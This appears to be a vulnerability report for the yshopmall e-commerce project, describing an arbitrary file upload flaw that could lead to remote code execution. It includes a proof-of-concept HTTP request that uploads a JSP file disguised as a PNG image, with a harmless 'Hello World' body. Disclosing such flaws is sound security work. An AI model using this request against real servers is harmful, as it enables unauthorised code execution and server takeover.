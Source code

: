 target:https://github.com/guchengwuyue/yshopmall
version: V1.0

The system has an arbitrary file upload vulnerability, which can enable RCE or even take over the server when improperly configured to parse JSP files

POC:
```
POST /api/api/upload HTTP/1.1
Host: 
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Mode: cors
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfq022FLSjwwBICu2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 NetType/WIFI MicroMessenger/7.0.20.1781(0x6700143B) WindowsWechat(0x63090c11) XWEB/11275 Flue
Sec-Fetch-Site: same-site
Origin: 
Accept: */*
Connection: keep-alive
Authorization: 
Accept-Language: zh-CN,zh;q=0.9
Referer: 
Content-Length: 1200649

------WebKitFormBoundaryfq022FLSjwwBICu2
Content-Disposition: form-data; name="file"; filename="hello.jsp"
Content-Type: image/png

Hello World !

------WebKitFormBoundaryfq022FLSjwwBICu2
```


